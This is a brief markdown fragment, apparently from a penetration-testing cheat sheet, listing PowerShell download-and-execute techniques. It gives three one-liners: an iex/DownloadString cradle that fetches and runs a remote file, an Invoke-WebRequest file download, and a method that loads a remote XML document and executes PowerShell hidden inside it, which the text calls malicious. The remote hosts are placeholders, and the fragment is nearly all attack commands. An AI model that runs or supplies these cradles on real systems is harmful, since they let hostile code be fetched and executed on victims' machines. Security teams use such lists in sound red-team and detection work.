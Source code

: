 ## Download and Execution
* `iex (New-Object Net.WebCLient).DownloadString('<remote_file>')` - downloads and executes the remote file
* `Invoke-WebRequest -Uri <target> -OutFile <filename>` - download file from target
* `var = New-Object System.Xml.XmlDocument;var.Load("<remote_xml_file>");iex var.command.a.execute` - download and executes malicious PowerShell located inside XML document
